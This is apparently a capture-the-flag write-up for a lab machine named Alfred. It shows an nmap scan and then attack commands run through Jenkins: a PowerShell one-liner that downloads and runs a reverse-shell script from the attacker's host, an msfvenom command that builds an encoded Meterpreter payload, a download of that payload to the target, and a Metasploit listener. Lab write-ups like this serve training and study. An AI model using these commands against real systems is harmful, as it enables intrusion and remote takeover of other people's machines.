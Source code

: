 # Alfred

## Enumeration

### Nmap Scan

```bash
nmap  -T4 -sC -sV  -oN nmap/alfred -Pn $TARGET
```

## Exploitation

### Jenkins

upload powershell reverse shell and execute it

```ps1
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

![shell](img/shell.png)

### Switching to Meterpreteur shell

generate rshell

```ps1
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

download it to my to the target

```ps1
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell-name.exe','shell-name.exe')"
```

Listen for connection with msf

```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip
set LPORT listening-port
set PAyLOAD windows/meterpreter/reverse_tcp
run

```

run the process

```ps1
Start-Process "shell-name.exe"
```